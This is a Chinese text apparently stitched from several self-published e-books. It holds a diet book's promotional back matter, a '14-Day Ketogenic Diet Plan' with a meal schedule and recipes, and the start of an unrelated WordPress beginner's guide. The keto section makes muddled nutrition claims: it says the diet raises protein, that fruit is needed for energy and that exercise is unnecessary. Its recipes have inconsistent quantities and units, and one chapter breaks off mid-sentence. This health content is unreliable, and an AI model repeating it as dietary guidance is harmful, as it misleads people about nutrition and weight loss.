我毫不怀疑，如果你按照本书中我所讲的内容采取行动，你将实现任何目标。

感谢你阅读本书。我希望你从中获得了价值，我确信它将帮助你做出更健康的饮食选择，实现你期望的减肥目标。

最后，如果你喜欢这本书，我想请你帮个忙，能否在亚马逊上为本书留下评论？将不胜感激！

[在亚马逊上为本书留下评论！](#)

我希望能触达尽可能多的人，更多的评论将有助于我实现这一目标。谢谢并祝好运！

另外，请务必点赞我的 *Facebook* 页面，加入关于健康和我最新书籍的讨论！

如果你喜欢这本书，请查看系列中的下一本书…

但请注意，如果你还没有观看关于如何用这个 3 周饮食计划减肥的重要视频，你可能想观看一下。[点击此处观看。](#)

## 赠品：获取我提供的更多免费视频和书籍！

感谢你阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我将提供更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真对待改变饮食和健康，你将获得的一切都将对你有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

**[点击此处获取所有这些信息！]**

如果你还没有，请务必查看我的新网站，[KindleBookSpot.com](KindleBookSpot.com)。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式，在一个地方找到最热门的 Kindle 书籍的折扣价。以下是我的网站提供的一些详细信息：

- 最畅销免费 Kindle 书籍的清单
- 折扣小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书籍

这个网站不仅面向读者，也是新兴作者在新书成为畅销书之前推广作品的地方。所以如果你想推广自己的书，请查看我的网站，[KindleBookSpot.com](KindleBookSpot.com)。

我希望这个网站对你有用，也希望在那里见到你！

[KindleBookSpot.com](KindleBookSpot.com)。

# 14 天生酮饮食计划

## 生酮饮食初学者食谱

*我最喜欢的饮食的额外信息*

*在 [KindleBookSpot.com](KindleBookSpot.com) 获取更多免费和特价书籍*

## 目录

- 引言
- 第 1 章：生酮饮食的好处
- 第 2 章：开始生酮饮食计划
- 第 3 章：生酮饮食计划（14 天指南）
- 第 4 章：生酮早餐食谱
- 第 5 章：午餐食谱
- 第 6 章：晚餐食谱
- 第 7 章：生酮饮食计划零食
- 第 8 章：提示和技巧
- 结论
- 《14 天茶排毒计划》预览

© 版权所有 2014 by ____________________ - 保留所有权利。

本文件旨在提供有关所涵盖主题和问题的准确可靠信息。该出版物以出版商无需提供会计、正式许可或其他合格服务为前提出售。如果需要建议，无论是法律还是专业，都应咨询该专业领域的从业人员。

- 引自《原则宣言》，该宣言由美国律师协会委员会和出版商及协会委员会共同接受并批准。

在任何情况下，未经许可以电子或印刷形式复制、复制或传播本文件任何部分都是非法的。严禁录制本出版物，未经出版商书面许可不得存储本文件。保留所有权利。

本文件中提供的信息被声明为真实且一致，任何因疏忽或其他原因在使用或滥用其中包含的任何政策、流程或指示而产生的责任，完全由接收读者承担。在任何情况下，出版商均不对因本文件信息直接或间接造成的任何赔偿、损害或金钱损失承担任何法律责任或归咎。

各作者拥有出版商未持有的所有版权。

本文件中的信息仅用于信息目的，且具有普遍性。信息的呈现不构成合同或任何类型的保证。

所使用的商标未经任何同意，商标的出版未经商标所有者的许可或支持。本书中的所有商标和品牌仅用于说明目的，由其所有者拥有，与本文件无关。


我要感谢你并祝贺你下载了这本书：“*14天生酮饮食计划：生酮饮食初学者食谱*”。这本书将教你如何享受这种改变生活且广受欢迎的饮食方式，它已经帮助世界各地的人们减掉了令人惊叹的体重。

这本书包含经过验证的步骤和策略，教你如何：

- 从头开始烹饪一些美味佳肴
- 弄清楚你能吃什么、不能吃什么
- 一边吃你喜爱的食物一边减重
- 吃其他饮食方式让你避免的多种食物
- 拥有比以往更多的精力
- 以及更多！

如果你想减重，你不必限制自己摄入美味食物。生酮饮食就是*那种*能确保体重不反弹的饮食方式，同时你还能享用各种你通常认为自己不能吃的餐食。

让这本书引导你完成你的14天生酮饮食计划，并走向可持续的减重，而且不会让你感到饥饿。看着体重下降，并保持下去。

再次感谢你下载这本书，希望你喜欢它！

## 第 1 章：生酮饮食的益处

生酮饮食正变得越来越受欢迎，这要归功于参与者所取得的效果。由于它限制了碳水化合物的摄入量，体重会减轻，身体最终消耗的能量会多于摄入的能量。

市面上有很多不可持续、而且坦白说不健康的饮食方式。这些饮食方式通常会严格限制你摄入的食物种类，而正是这一点可能导致健康问题。

当你开始生酮饮食时，你会限制碳水化合物的摄入，但你会增加蛋白质的摄入量。这很棒，因为这意味着你的身体会开始燃烧脂肪，而且你不会感到饥饿。

### 易于坚持

生酮饮食的美妙之处在于它非常容易坚持。你无疑会享受吃很多美味餐食，同时还能减重。你可以大量吃培根、奶酪和其他食物，同时看着体重下降，这似乎很奇怪。但事实是，这种饮食方式有效，而且效果很好。

### 如何在生酮饮食中减脂

当你开始你的生酮之旅时，你会摄入不含太多碳水化合物的食物。当你摄入碳水化合物时，你的身体会先燃烧它们产生的能量，然后才会寻求燃烧你身上携带的任何脂肪。

由于你不会摄入很多碳水化合物，你的身体会首先燃烧脂肪，这意味着你会开始减重。你拥有的任何多余腹部脂肪都会首先被燃烧，这可能会让你对自己的外貌更有信心。

你也会开始感到更有活力，而且你有可能让生活变得更好。

## 第 2 章：开始生酮饮食计划

根据我自己的经验，我知道开始任何饮食方式都不像你希望的那么容易，但下面有一些提示可以帮助让事情稍微容易一些。

请不要以为开始生酮饮食会轻而易举，它可能比你想象的稍微艰难一些，但别担心，你会做到的。

### 犯错

开始一种新的饮食方式并不总是容易的，而生酮饮食可能是一种难以适应的饮食方式。这是因为要求你远离碳水化合物和任何种类的糖。你可能偶尔会犯错，吃下比你意识到的更多的糖，但尽量不要为此过于沮丧。你越多参与这个饮食计划，你就会越习惯于吃含有很少或不含碳水化合物的食物。

### 找到你的食材来源

为了烹饪本书中的食谱，你需要采购的很多食材在大多数商店都能买到。这就是这种饮食方式的妙处，它不要求你吃任何难以获得的东西。

我知道有些食谱确实要求你使用牛奶替代品（如豆奶或杏仁奶，偶尔还有椰奶），但它们通常可以在各种商店买到。如果你当地的杂货店不卖牛奶替代品，那么你可能想去健康食品店看看，因为它们很可能有售。如果你仍然找不到，那就求助于互联网，因为有很多网站以合理的价格出售牛奶替代品。

### 和朋友一起开始计划

如果你愿意，你可以和朋友一起开始这个计划。因为这样比独自进行更容易。和朋友一起开始计划会容易得多，因为它可以让你获得食谱灵感，也能增强你的动力。

话虽如此，如果你愿意，你不必和朋友一起开始这个计划，你也可以独自进行。如果你选择这样做，你应该尽力保持动力，尤其是在发现事情艰难的时候。

### 关键食物/食材

#### 肉类和奶酪

在整个生酮饮食计划中，你会被要求吃大量的肉和奶酪。这是因为肉类是蛋白质的良好来源，但你需要远离加工肉类，因为它们可能含有隐藏的碳水化合物。

好消息是，肉类可以每天都享用，所以请随意在饮食中加入更多肉类，并享受它！

#### 鱼

鱼也是蛋白质的极好来源，还含有一些非常健康的油脂。我必须强调，你需要远离裹面糊和裹面包糠的鱼，因为这些会含有大量碳水化合物。尽量不要每周吃鱼超过三次，因为已知鱼含有大量汞。

#### 乳制品

我知道完全远离乳制品很难，但有一些很好且非常美味的替代品。我知道这些替代品经过了一定程度的加工，但它们能确保你获得所需的钙，以及其他非常有益的营养素。

#### 水果和蔬菜

许多人以为在生酮饮食中不能吃水果和蔬菜。这完全是误解，因为你需要摄入这些食物来获取能量。水果和蔬菜含有糖分，而由于你不会吃碳水化合物，你需要从其他地方获取能量。确保只吃低糖的水果和蔬菜，以免最终增重。

#### 调味汁

让我们面对现实吧，我们都喜欢时不时地给饭菜加调味汁。虽然这在生酮饮食中完全可以接受，但你应该确保不要在碳水化合物方面过量。好消息是，油基调味汁和蛋黄酱在这套饮食中是允许的，所以尽情吃吧！

## 第 3 章：生酮饮食计划（14 天指南）

下面你会找到一个14天指南，它应该能帮助你决定想吃什么。请注意，你完全可以制定自己的饮食计划。下面看到的计划仅仅是一个指南，你可能会发现吃其他食物更符合你的口味。

| 天 | 早餐 | 零食 | 午餐 | 零食 | 晚餐 |
| --- | --- | --- | --- | --- | --- |
| 第一天 | 奶油芝士煎饼 | 夏威夷果 | 鸡肉培根沙拉 | 芝士脆片 | 烤三文鱼 |
| 第二天 | 草莓肉桂麦片 | 三文鱼配奶油芝士 | 低碳水肉糕 | 剩下的肉 | 西班牙香肠花椰菜汤 |
| 第三天 | 培根面包 | 芝士脆片 | 鸡汤 | 猪皮脆配香蒜酱 | 芝士洋葱乳蛋饼 |
| 第四天 | 柠檬蓝莓松饼 | 猪皮脆配香蒜酱 | 香肠披萨 | 夏威夷果 | 瑞典肉丸 |
| 第五天 | 菠菜煎蛋卷 | 剩下的肉 | 随你喜好 | 夏威夷果 | 瓜达拉哈拉鸡肉 |
| 第六天 | 培根、鸡蛋和西兰花 | 夏威夷果 | 巧克力蛋白奶昔 | 芝士脆片 | 剩下的瑞典肉丸 |


### 第七天

早餐：火腿、火鸡和芝士煎饼

加餐：芝士脆片

午餐：昨晚的剩菜

加餐：猪皮脆和香蒜酱

晚餐：芝士洋葱乳蛋饼

### 第八天

早餐：奶油芝士煎饼

加餐：夏威夷果

午餐：鸡肉培根沙拉

加餐：剩肉

晚餐：烤三文鱼

### 第九天

早餐：草莓肉桂麦片

加餐：芝士脆片

午餐：香肠披萨

加餐：三文鱼和奶油芝士

晚餐：巧克力蛋白奶昔

### 第十天

早餐：培根面包

- 加餐：剩肉
- 午餐：鸡汤
- 加餐：夏威夷果
- 晚餐：瑞典肉丸

### 第十一天

- 早餐：柠檬蓝莓玛芬
- 加餐：芝士脆片
- 午餐：低碳水肉糕
- 加餐：猪皮脆和香蒜酱
- 晚餐：西班牙辣香肠花椰菜汤

### 第十二天

- 早餐：菠菜煎蛋卷
- 加餐：三文鱼和奶油芝士
- 午餐：随你心意
- 加餐：夏威夷果
- 晚餐：瓜达拉哈拉鸡肉

### 第十三天

- 早餐：培根、鸡蛋和西兰花
- 加餐：猪皮脆和香蒜酱
- 午餐：巧克力蛋白奶昔
- 加餐：芝士脆片

晚餐：剩下的瑞典肉丸

### 第十四天

早餐：火腿、火鸡和芝士煎饼

加餐：三文鱼和奶油芝士

午餐：昨晚的剩菜

加餐：剩肉

晚餐：芝士洋葱乳蛋饼

如你所见，生酮饮食丰富多样，包含许多美味的食物。如果你想品尝我建议的一些餐食，请参阅接下来的几章，你会在那里找到食谱。

如果愿意，不必害怕修改食谱，但最重要的是，好好享用它们。

## 第 4 章：生酮早餐食谱

每天早晨都享用一顿美味又营养的早餐。如果你早上时间有点紧，提前一晚做好早餐会大有帮助。

### 奶油芝士煎饼

可制作：2份

配料：

- 2个鸡蛋
- 1茶匙甜菊糖
- 2-3汤匙奶油
- 半茶匙肉桂粉
- 1汤匙椰子粉
- 一小片黄油
- 枫糖浆

做法：

将除黄油和枫糖浆以外的所有配料放入碗中，搅拌至混合均匀且顺滑。加热平底锅或煎锅，加入黄油，用中高火融化。每面煎至金黄棕色。

离火，搭配枫糖浆食用。

### 草莓肉桂麦片

可制作：2碗

配料：

- 530克椰片
- 2颗草莓
- 200毫升杏仁奶或豆奶
- 1茶匙肉桂粉

做法：

将烤箱预热至350华氏度，并在烤盘上铺好烘焙纸。放入椰片，烤约2分半钟，然后将椰片稍微翻动一下，再烤2分半钟，或直到椰子开始微微变棕。

将椰子从烤箱中取出，撒上肉桂粉。如果你想给椰子加糖或糖替代品，现在是最佳时机。

将椰片舀入2个碗中，加入草莓和牛奶，即可食用。

### 培根面包

可制作：3份

配料：

- 1包培根
- 3个鸡蛋
- 100克芝士，磨碎

做法：

将烤箱预热至200华氏度，把培根从中间切开，然后将每片切成两半。现在在烤盘上铺好烘焙纸，将两片培根并排摆放，然后在上面放两片，方向相反。如果你想稍微讲究一点，可以考虑把培根编织在一起，让它们粘合在一起。

将培根烤约20-25分钟，或烤至你满意的程度。烤好后，将培根从烤箱中取出，放在厨房纸上，让部分油脂沥出。放凉。

将鸡蛋煎至符合你口味的熟度，然后放在一旁。

取一层培根放在盘子上，然后放上一个煎蛋，再撒上一些芝士。在上面再放一层培根，做成三明治。重复此过程，直到做出3个三明治。即可食用。

### 柠檬蓝莓玛芬

可制作：8个

配料：

- 114克蓝莓
- 四分之一茶匙柠檬皮屑
- 四分之一茶匙柠檬香精
- 120克淡奶油
- 1个鸡蛋
- 100克杏仁粉
- 一小撮盐
- 四分之一茶匙小苏打
- 2包半甜味剂
- 28克融化黄油

做法：

将烤箱预热至350华氏度，并在玛芬烤盘中铺好纸杯。将面粉和奶油放入碗中搅拌，然后加入鸡蛋再次搅拌，直到所有材料充分混合。

现在加入甜味剂、黄油、柠檬皮屑、柠檬香精和小苏打，搅拌均匀。拌入蓝莓，然后将混合物舀入玛芬烤盘，每个格子装半满。

放入烤箱烤约20分钟，或烤至玛芬呈金黄色。放凉后食用。

### 菠菜煎蛋卷

可制作：1个大的或2个小的煎蛋卷

配料：

- 1个蛋黄
- 4个蛋清
- 一把切碎的菠菜
- 半个番茄，切碎
- 2汤匙豆奶或杏仁奶
- 一小撮香菜
- 1汤匙切碎的洋葱
- 喷雾油

做法：

在平底锅中喷油，然后煸炒蔬菜。将蛋黄、蛋清和牛奶放入碗中，然后打匀。

蔬菜炒好后，从锅中取出，放在一旁。再次给平底锅喷油，然后倒入鸡蛋混合物。

将鸡蛋煎至符合你口味的熟度，然后用勺子把蔬菜放在鸡蛋的一侧。将鸡蛋的另一侧折到蔬菜上，然后非常轻柔地将煎蛋卷从锅中取出。即可食用。

### 培根、鸡蛋和西兰花

供2人食用

配料：

- 4个鸡蛋
- 8片培根
- 1汤匙黄油
- 80克西兰花，切碎
- 1根胡萝卜，切成薄片
- 半个洋葱，切碎
- 100克磨碎的芝士
- 50克芹菜

做法：

在平底锅或煎锅中融化黄油，然后煎培根和蔬菜约20分钟，或直到蔬菜开始焦糖化。

将混合物均匀铺在平底锅或煎锅底部，然后分成四份。在每一份中间挖一个洞，然后打入鸡蛋。将鸡蛋煎至符合你口味的熟度，再撒上芝士。让芝士融化，然后即可食用。

### 火腿、火鸡和芝士煎饼

可制作：4-5份

配料：

- 4个鸡蛋
- 2茶匙甜菊糖
- 4-6汤匙奶油
- 1茶匙肉桂粉
- 2汤匙椰子粉
- 4片火鸡肉
- 200克瑞士芝士，磨碎
- 4片火腿
- 一片黄油
- 枫糖浆

做法：

将鸡蛋、甜菊糖、奶油、肉桂粉和椰子粉放入碗中，搅拌至混合均匀且顺滑。加热平底锅或煎锅，加入黄油，用中高火融化。每面煎至金黄棕色。

将煎饼离火。

取1片火鸡肉放在盘子上，然后在火鸡肉上放一片火腿，再放在一张煎饼上，重复3次。在每张煎饼上放约50克芝士，然后置于中低火上，盖上盖子，直到芝士良好融化。即可食用。

## 第 5 章：午餐食谱

这些午餐食谱可以装盒带到工作场所，也可以在家享用。剩余的食物请在接下来几天内吃完，以便享用最新鲜的风味。

### 鸡肉培根沙拉

供4人食用

配料：

- 1块生鸡胸肉，切碎
- 4汤匙黄油
- 5片培根
- 1个番茄，切碎
- 半茶匙盐
- 2茶匙牛排调味料
- 2茶匙柠檬汁
- 1个蛋黄
- 56克磨碎的芝士
- 56克蛋黄酱

做法：

取牛排调味料撒在鸡肉上，然后将鸡肉与黄油一起用中高火煸炒。煸炒至鸡肉熟透。

现在将培根切成条，煸炒至酥脆，然后沥去油脂。加入剩余配料，煸炒几分钟，然后离火。现在将鸡肉和培根盛入盘中，倒入其余配料，即可食用。

### 香肠披萨


可制作：1份

#### 配料：
- 3个鸡蛋
- 200克擦碎的奶酪
- 2茶匙意大利混合香料
- 1汤匙橄榄油
- 1颗花椰菜，切碎
- 2汤匙黄油
- 42克切碎的洋葱
- 60毫升水
- 200克擦碎的马苏里拉奶酪
- 60克擦碎的帕玛森奶酪
- 1茶匙茴香籽
- 500克香肠
- 1罐低碳水披萨酱

#### 做法：
#### 制作饼底：
将烤箱预热至450华氏度，并在烤盘上铺纸或抹油。在煎锅或平底锅中融化黄油，然后加入花椰菜和洋葱。用小火煸炒至花椰菜熟透。

向锅中加入水，盖上锅盖，将花椰菜蒸至变软。将花椰菜转移到碗中冷却。将香肠放入煎锅或平底锅中煮熟，然后切成小块。取出香肠，沥去油脂，放在一旁。

花椰菜冷却后，取约一半放入食品加工机，搅打至顺滑。将其放入碗中，加入马苏里拉奶酪、鸡蛋、帕玛森奶酪和香料，充分搅拌。

将混合物铺在烤盘上，均匀摊开。烘烤约20分钟，或至花椰菜边缘变褐。

制作浇头：
将香肠切成更小的块。将披萨酱加入酱汁锅，再加入香肠。盖上锅盖，煮至微沸。

将烤箱调至炙烤模式，将香肠混合物和酱汁倒在饼底上，摊成薄而均匀的一层。加入奶酪混合物，然后将披萨放回烤箱，烤至奶酪开始变褐。切片后即可享用。

### 鸡汤
可制作：4-6碗

#### 配料：
- 650克鸡肉
- 半个小洋葱，切碎
- 1茶匙盐
- 半根胡萝卜，切碎
- 半根芹菜茎，切碎
- 1瓣去皮大蒜
- 半茶匙欧芹
- 半茶匙百里香
- 3粒黑胡椒粒
- 半片香叶

#### 做法：
将烤箱预热至400华氏度，把鸡肉放入烤盘或荷兰锅中。加入盐以及洋葱、胡萝卜和芹菜，烤鸡约45分钟。鸡肉烤好后，从烤箱取出，放到炉灶上。向鸡肉中加入适量水，以及大蒜、香料和香草。用小火慢炖，然后撇去浮沫。离火，放凉。

冷却后，过滤汤汁，即可享用。

### 低碳水肉糕
可制作：1个大肉糕

#### 配料：
- 800克绞牛肉
- 5瓣大蒜，切末
- 2汤匙黄油
- 半汤匙香菜
- 半汤匙百里香
- 6克欧芹
- 2个鸡蛋
- 400克香肠
- 225克洋葱，切碎
- 120克青椒，切碎
- 100克杏仁粉
- 50克擦碎的帕玛森奶酪
- 1茶匙盐
- 半茶匙黑胡椒
- 半茶匙明胶
- 2茶匙烧烤酱
- 2茶匙芥末
- 60毫升重奶油

#### 做法：
将烤箱预热至350华氏度，并给烤盘抹油。将帕玛森奶酪和杏仁粉放入碗中，充分搅匀。在煎锅或平底锅中加热黄油，然后加入洋葱、大蒜和青椒，煸炒。变软后放凉，再放入食品加工机，搅打至细碎。

打散鸡蛋，然后加入烧烤酱、香草、胡椒、盐、芥末和重奶油。将明胶撒在配料表面，静置约5分钟。然后加入洋葱，充分搅拌。

取牛肉和香肠混合，放入大碗中，加入杏仁粉混合物和鸡蛋混合物，拌匀。如果混合物变黏，可加入一些帕玛森奶酪。将混合物放入烤盘，确保每边留出约1英寸的空隙。将肉糕压平，烤1小时，或至肉糕内部温度达到160华氏度。冷却后即可享用。

### 巧克力蛋白奶昔
可制作：1份

#### 配料：
- 28克（或16盎司）杏仁奶或豆奶
- 114克（或4盎司）重奶油
- 1汤匙覆盆子糖浆
- 30克乳清蛋白粉

#### 做法：
将配料放入搅拌机或奶昔机，搅打至顺滑。倒入杯中，即可享用。

## 第 6 章：晚餐食谱
以下晚餐食谱应能让你在一天结束时感到十分满足。

### 烤三文鱼
份量：2人份

#### 配料：
- 2块三文鱼柳
- 6汤匙橄榄油
- 1汤匙柠檬汁
- 1汤匙欧芹
- 2瓣大蒜，切末
- 1茶匙香菜
- 1茶匙盐
- 1茶匙黑胡椒

#### 做法：
将黑胡椒、盐、大蒜、香菜、橄榄油、柠檬汁和欧芹放入碗中，搅拌均匀。
将三文鱼放入烤盘，并覆盖上大蒜香菜混合物。

将三文鱼放入冰箱腌制约1小时，每20分钟翻面一次。将烤箱预热至375华氏度，用铝箔纸包住三文鱼。倒入腌料，烤约45分钟，或至用叉子触碰时鱼肉能轻松剥落。即可享用。

### 西班牙辣香肠花椰菜汤
份量：3人份

#### 配料：
- 半颗花椰菜，切碎
- 半个洋葱，切碎
- 半根中等大小的西班牙辣香肠，切碎
- 半根小葱，切碎
- 半个芜菁，切碎
- 少许盐
- 240毫升鸡汤
- 1汤匙黄油

用1汤匙黄油给汤锅抹油，加入洋葱，用中高火煮至变褐。加入花椰菜，继续煮5分钟，同时搅拌。

向花椰菜中加入鸡汤，盖上锅盖。加入一半芜菁和一半西班牙辣香肠。煮至酥脆（约10分钟）。将一半西班牙辣香肠放入搅拌机，搅打至顺滑。用盐调味，然后加入剩余的芜菁和西班牙辣香肠。即可享用。

### 瑞典肉丸
可制作：30个

#### 配料：
- 500克瘦牛肉
- 1汤匙黄油
- 1个煮熟的鸡蛋
- 半茶匙黑胡椒
- 1.5茶匙多香果
- 1.5茶匙肉豆蔻
- 1.5茶匙盐
- 200克里科塔奶酪
- 114克瑞士奶酪，擦碎

#### 做法：
在锅中加入黄油加热，然后煸炒洋葱至透明。煮约10分钟。将瑞士奶酪放入搅拌机，搅打至类似面包屑。

将鸡蛋和里科塔奶酪放入搅拌碗，搅打均匀。加入胡椒、盐和香料，再次拌匀。加入瑞士奶酪和洋葱，再拌一次。将牛肉放入碗中混合，直至所有配料黏合在一起并呈黏稠状。将混合物分成30份，搓成肉丸。

将肉丸放在烤盘上，以350华氏度烤约20分钟，或至变褐。即可享用。

### 瓜达拉哈拉鸡肉
份量：4人份

#### 配料：
- 4块去骨鸡胸肉，切成2厘米厚的片
- 3瓣大蒜，切末
- 2汤匙黄油
- 6个番茄，切碎
- 4个青辣椒
- 114克奶油奶酪
- 60毫升鸡汤
- 60克淡奶油
- 1茶匙孜然
- 半茶匙卡宴辣椒粉
- 1茶匙盐
- 半茶匙蒜粉
- 莎莎酱，用于装饰
- 酸奶油，用于装饰
- 一把切达奶酪，擦碎，用于装饰

#### 做法：
在煎锅中融化黄油，然后煸炒大蒜和洋葱至变软。将鸡肉放入煎锅，用中火煮至肉汁清澈。将温度调至中低火，加入辣椒和番茄。加入所有香草和香料，盖上锅盖，小火慢炖约10分钟。

加入淡奶油和奶油奶酪，持续搅拌至奶酪融化。撒上装饰配料，即可享用。


### 奶酪洋葱乳蛋饼

可制作：1个大乳蛋饼

配料：
- 12个鸡蛋
- 500克切达奶酪，磨碎
- 2汤匙黄油
- 480毫升重奶油
- 1个洋葱，切碎
- 1茶匙盐
- 2茶匙百里香
- 1茶匙胡椒

做法：

将烤箱预热至华氏350度，然后将黄油加入煎锅，用中小火融化。加入洋葱煸炒，直到洋葱变透明，然后放凉。

准备两个乳蛋饼烤盘，加入磨碎的切达奶酪，然后加入洋葱，均匀铺在烤盘中。

现在将鸡蛋倒入搅拌碗中，加入香料和奶油。搅打至混合物起泡。将一半混合物倒在奶酪上，并均匀铺开。

将烤盘放入烤箱，烤约25分钟，或直到乳蛋饼凝固。冷却后即可食用。

## 第 7 章：生酮饮食计划零食

作为生酮饮食计划的一部分，享用以下零食，并在享用美味食物的同时减肥。

### 夏威夷果

份量：1人份

配料：
- 一把夏威夷果
- 一小片黄油

做法：

在平底锅中融化黄油，加入坚果，不断搅拌。坚果变成棕色后离火。冷却后即可食用。

### 三文鱼与奶油奶酪

份量：1人份

配料：
- 150-200克三文鱼
- 100克奶油奶酪

做法：

将三文鱼切成细条，放入碗中。舀入奶油奶酪并搅拌。
即可食用。

### 剩肉

份量：1人份

配料：
- 剩肉
- 一小撮你选择的香草

做法：

将剩肉切成细条，放入碗或容器中。撒上你选择的香草，即可食用。

### 奶酪脆片

份量：1人份

200克切碎的奶酪

做法：

裁一些无蜡烘焙纸，大小与微波炉转盘相同。
现在将纸放在转盘上，放上小堆奶酪。

将微波炉调至全功率加热约一分半钟，或直到奶酪变脆。冷却后即可食用。

### 猪皮脆与青酱

份量：1人份

- 10-15个熟猪皮脆
- 60–80毫升罗勒青酱

做法：

将一半罗勒青酱舀入碗底，均匀铺开。在上面放上猪皮脆，然后将剩余的罗勒青酱舀在猪皮脆上。搅拌均匀后食用。

## 第 8 章：提示与建议

以下是一些提示和建议，它们将帮助你更轻松地参与生酮饮食计划。

### 水

无论你正在执行哪种饮食计划，保持水分都很重要。水对你非常有益，它不仅有助于身体排毒，还能让你有饱腹感。每天喝8杯水；如果你不喜欢水的味道，也可以放心添加一些低碳水调味剂。

### 运动

许多人在参与饮食计划时会运动，但你不必这样做。如果你只吃生酮计划允许的食物，你会减掉很多体重。这意味着你不必为了减肥而运动，因为体重会开始快速下降。

### 你的体重减轻

在执行这种饮食时，你不可避免地会减掉一些体重，甚至可能减掉很多。这是因为你会摄入少得多的糖。虽然一开始你可能会减掉相当多体重，但减重最终会放缓。这是因为你的身体会确定其理想体重，并缓慢而稳定地让你达到那里。

记住，如果你快速减掉很多体重，也会同样快速地反弹。

### 如果你想再次执行该计划

我建议你每次进行生酮饮食不要超过两周。这是因为你需要摄入水果、蔬菜以及这种饮食可能缺乏的其他营养素。

如果你确实想再次执行该计划，那么请执行该计划两周，然后有

## 结论

再次感谢你下载本书！

我希望本书能帮助你了解生酮饮食可以多么美味，同时也帮助你减肥。

下一步是准备好你需要的所有食材，这样你就能享用一些美味的自制餐食。

我想感谢你并祝贺你下载本书《*两周学会 WordPress 基础*》。

本书包含经过验证的步骤和策略，教你如何开始使用 WordPress 建立你的博客或网站。

WordPress 是当今最受欢迎的网站平台，主要因为它易于使用。即使没有网页设计和开发的基础知识，你也可以自学使用 WordPress。

事实上，本书旨在教你在短短两周或更短时间内开始使用 WordPress。

在本书中，你将学习：
- WordPress 是什么
- 如何使用 WordPress
- WordPress 的常见功能
- 以及更多内容！

再次感谢你下载本书，希望你喜欢！

[*点击此处获取使用 Bluehost 设置你的 WordPress 网站的分步说明。*](#)

## 第 1 章 – 为什么要学习 WordPress？

许多人认为 WordPress 只是另一个博客平台。这种误解源于过去 WordPress 确实主要用于博客。但多年来，WordPress 已发展为一个动态内容管理系统（CMS）。尽管你仍然可以使用这个 CMS 创建基本博客，但它现在允许你构建功能完整的网站。

WordPress 最棒的地方在于它非常灵活且易于使用。这是 WordPress 成为当今最受欢迎 CMS 的主要原因。如今互联网上约23%的活跃网站由 WordPress 提供支持。

由于其多功能特性，许多知名品牌使用 WordPress 为其网站提供支持，例如 eBay、《纽约时报》、迪士尼、Facebook、《时代》杂志、CNN、LinkedIn、索尼和谷歌。

让我们简要看看为什么你应该学习和使用 WordPress

### WordPress 给你自由

基本上，WordPress 是一款免费软件。你可以自由下载、安装、修改并以任何方式使用它。你可以构建任何类型的网站。它也是一个开源平台，这意味着任何人都可以随时访问源代码进行研究、修改和试验。

全世界有数百万人在使用 WordPress，每天都有新的人在用这个出色的 CMS 创建网站。人们能够轻松适应 WordPress 的主要原因在于它非常易于使用和学习。

### 你可以轻松管理 WordPress

WordPress 具有内置更新器，可通过 WordPress 内的管理仪表盘轻松更新插件和模板。如果有 WordPress 的新版本，它还会通知你，你只需点击几下鼠标即可轻松更新。如果你设置定期备份，所有内容都是安全的。

### 你可以通过主题和插件扩展 WordPress

值得注意的是，大多数使用 WordPress 的人既不是程序员也不是网页设计师。事实上，成千上万的人在没有任何网站设计基础知识的情况下就开始使用 WordPress。

WordPress 之所以是一个如此动态的平台，主要原因在于你可以从数以千计的免费主题（网页模板）中选择，以改善你的网站外观。因此，你可以根据网站目的赋予其设计和感觉。你几乎可以为任何用途找到 WordPress 主题。你可以在第2章了解更多相关内容。

WordPress 还提供极佳的灵活性，并可通过插件进行扩展。与主题类似，你可以使用数千个插件来增强你的网站。这些插件可以增强 WordPress 的功能，并能为你的网站添加一个全新的平台。你可以在第2章了解更多关于插件的内容。

### WordPress 对 SEO 友好

WordPress 使用高质量且符合标准的代码开发，可生成语义化标记，使你的网站对搜索引擎友好。WordPress 的设计和主题对搜索引擎非常友好，并且通过使用 SEO 插件，还可以让它对 SEO 更具吸引力。


### WordPress 可以集成各种类型的媒体

WordPress 提供了一个动态平台，允许你使用不同的媒体类型。它具有内置支持，可以处理视频、音频和照片内容。它还支持嵌入功能，允许你嵌入来自外部网站（如 YouTube 和 Vimeo）的视频。

### WordPress 提供可靠的安全功能

网络安全是 WordPress 的基本要素之一，因此你可以通过这个平台安全地运行任何网站。但由于万维网的广阔性，这并不能确定。网络上存在入侵者，他们想尽可能多地进入网站。好消息是，WordPress 开放安全插件，以避免任何形式的安全威胁。

### WordPress 的不同使用方式

你可以通过多种方式使用 WordPress。许多商业网站都在 WordPress 上运行，并成为其销售生成的关键部分。你可以将 WordPress 用于以下场景：

- 博客（个人或商业）
- 在线街机
- CMS
- 作品集
- 画廊
- 在线商店
- 会员门户
- 视频精选网站
- 评分网站
- 以及更多！

我希望本章回答了关于为什么必须使用 WordPress 的问题。学习 WordPress 最好的方式就是开始使用它。在接下来的章节中，你可以每天学习 WordPress 的基本要素。

## 第 2 章——第一周：设置、仪表盘、管理工具栏、设置、链接和图片

WordPress 很容易学习，只要你每天能抽出 1 到 2 小时，持续两周。你只需要非常基础的互联网技能，当然还有准确遵循说明的能力。你甚至不需要学习 HTML 或其他编程语言来创建网站。虽然编程和编码技能将来会派上用场，但开始使用 WordPress 并不需要它们。

全世界有数百万人从零开始使用 WordPress。事实上，大多数 WordPress 用户甚至不知道如何设计网站或编写代码。

你能读到这一章，就是个好迹象，说明你愿意学习 WordPress。那么，让我们开始吧。

### 第一周 第一天 - 了解初始设置

第一步是学习如何安装和设置 WordPress。你需要在 WordPress.org 和 WordPress.com 之间做出选择。

如果你想搭建个人博客，并且无意通过网站赚钱，那么选择 WordPress.com 是理想的。但如果你想成为专业博主，那么最好使用自托管的 WordPress.org。后一种选择会花费金钱，但用于创建自己的网站实际上是成本效益高的。

例如，假设你选择了 WordPress.com，购买了自定义域名（每年 17 美元），选择了自定义设计（每年 30 美元），并付钱去除广告（每年 29.97 美元）。每年总共 76.97 美元，并不能让你获得完全控制权。

